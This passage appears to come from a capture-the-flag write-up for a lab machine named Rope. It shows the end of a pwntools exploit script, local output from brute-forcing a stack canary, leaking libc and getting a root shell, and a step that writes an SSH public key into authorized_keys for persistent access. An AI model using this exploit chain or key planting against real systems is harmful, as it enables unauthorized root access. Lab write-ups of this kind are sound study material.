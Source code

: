     time.sleep(1)
    log.info("Sending shell exploit")
    p = remote(host, port)
    p.recvuntil("Please enter the message you want to send to admin:\n")
    p.send(exploit)
    p.interactive()
    p.close()
    

#### Test Locally

First I tested locally, and it worked:

    
    
    root@kali# python3 rope_root-remote3.py local
    [*] Starting brute force
    [+] Brute forcing Canary: Finished in 147.60 seconds
    [+] Canary:             0x2dc703f3464e4300
    [+] Brute forcing RBP: Finished in 188.66 seconds
    [+] RBP:                0x00007ffec5a79900
    [+] Brute forcing Return Address: Finished in 85.28 seconds
    [+] Return Address:     0x0000557c214f5562
    [*] Sending exploit to leak libc write address
    [+] Opening connection to 127.0.0.1 on port 1337: Done
    [+] libc write address: 0x00007fc4383a87d0
    [*] Closed connection to 127.0.0.1 port 1337
    [+] Calculated addresses:
        libc_base:          0x00007fc4382bd000
        dup2:               0x00007fc4383a8f00
        execve:             0x00007fc438384d60
        binsh:              0x00007fc438440cee
    [*] Sending shell exploit
    [+] Opening connection to 127.0.0.1 on port 1337: Done
    [*] Switching to interactive mode
    $ id
    uid=0(root) gid=0(root) groups=0(root)
    

#### Shell Remotely

In order to talk to the service running on Rope, I need access from localhost.
I could upload my script and try to run it there, but it’ll be easier to use
my current access to enable ssh access since ssh is running. I’ll write my
public key into `authorized_keys`:

    
    
    john@rope:/home/john$ mkdir .ssh
    john@rope:/home/john$ cd .ssh
    john@rope:/home/john/.ssh$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0SwpwZ7rgMtCZYzkDtFJvQZO20N+8DmYxOix+PgL6VQW/9wZC3xnKK1zeAelMYtv/O38GXE2ghUH7z6ayVmTMkjGqt18mhsEpCt0BbonGRC0IHoBsV5QBVNin+x1soVdECT1Tr45bNnTnkZXIgSyDumc+2Ix6A1wiiC5RbI3SrxJ7nL0lRlhjdoAH6KCb4dwhX+Jos0VudHRreE01+0YE0Qb7Sd0eA5Cq7UtjgiW6VyXcmWH7aQdVZlUanrs5wdwWYeVCxY/XfFCCDmHZw+8W5INudM2t7on7bl/rYnhAExOr14/1s7LfYAfV8B6VNPPX+IOzOcT4aYQC3rRDiG5P root@kali' > authorized_keys
    